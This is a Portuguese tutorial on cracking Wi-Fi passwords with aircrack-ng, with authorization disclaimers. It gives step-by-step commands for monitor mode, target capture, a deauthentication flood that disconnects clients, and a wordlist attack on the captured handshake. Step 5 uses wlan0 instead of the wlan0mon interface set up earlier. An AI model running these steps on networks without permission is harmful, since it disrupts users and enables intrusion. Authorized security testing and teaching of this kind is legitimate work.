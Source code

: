 # Crackeando Senhas Wi-Fi com Aircrack-ng

Este tutorial ensina o uso dos comandos do pacote `aircrack-ng` para capturar e quebrar senhas de redes Wi-Fi. **Atenção:** Esta prática deve ser realizada apenas em redes que você tem autorização para testar, respeitando as leis e a privacidade de terceiros.

## Pré-requisitos

- Linux com privilégios de superusuário (comando `sudo`)
- Placa de rede compatível com modo monitor
- Pacote `aircrack-ng` instalado (`sudo apt install aircrack-ng`)

---

## Passo a Passo

### 1. Desativar Serviços Conflitantes

Primeiro, desative serviços que possam interferir com o processo de captura de pacotes:
```bash
sudo airmon-ng check kill
```

Este comando interrompe temporariamente serviços como o `NetworkManager` que podem afetar a operação da placa de rede em modo monitor.

### 2. Iniciar o Modo Monitor

Ative o modo monitor para sua interface de rede:
```bash
sudo airmon-ng start wlan0
```

Substitua `wlan0` pela sua interface de rede, caso necessário. Após isso, o nome da interface será modificado para algo como `wlan0mon`.

### 3. Capturar Pacotes em Redes Próximas

Escaneie as redes Wi-Fi próximas para identificar o ponto de acesso alvo:
```bash
sudo airodump-ng wlan0mon
```

Observe as redes disponíveis. Identifique o **BSSID** (endereço MAC do roteador), **canal** (CH) e outros detalhes da rede que você deseja testar.

### 4. Focar na Rede Alvo

Capture pacotes especificamente para a rede alvo:
```bash
sudo airodump-ng -c <canal> --bssid <bssid> -w capture wlan0mon
```

Substitua:
- `<canal>`: Canal da rede alvo (obtido na etapa anterior).
- `<bssid>`: BSSID da rede alvo.
- `capture`: Nome do arquivo onde os pacotes capturados serão salvos.

### 5. Realizar Desautenticação (Opcional)

Para forçar clientes conectados à rede a se desconectarem e capturar pacotes de handshake (usados para a quebra da senha):
```bash
sudo aireplay-ng --deauth 1000 -a '<bssid>' -c '<mac_cliente>' wlan0
```

Substitua:
- `<bssid>`: BSSID da rede alvo.
- `<mac_cliente>`: Endereço MAC do cliente conectado (opcional; se omitido, desconecta todos os clientes).

O parâmetro `-deauth 1000` envia 1000 pacotes de desautenticação.

### 6. Quebrando a Senha

Quando tiver capturado um handshake, utilize o `aircrack-ng` para tentar quebrar a senha com uma wordlist:
```bash
sudo aircrack-ng -w 'wordlist.txt' 'capture-01.cap'
```

Substitua:
- `wordlist.txt`: Caminho para a wordlist contendo possíveis senhas.
- `capture-01.cap`: Arquivo de captura (o nome gerado pelo `airodump-ng`).

---

## Considerações Finais

Estes passos devem ser realizados apenas em redes nas quais você tem permissão para testar. O uso indevido dessas ferramentas é ilegal e pode resultar em penalidades.

### Recursos e Referências

- [Documentação do Aircrack-ng](https://www.aircrack-ng.org/)
- [Wordlists para Brute Force](https://github.com/danielmiessler/SecLists)

---

**Disclaimer:** Este guia é para fins educacionais. Use as ferramentas com responsabilidade.

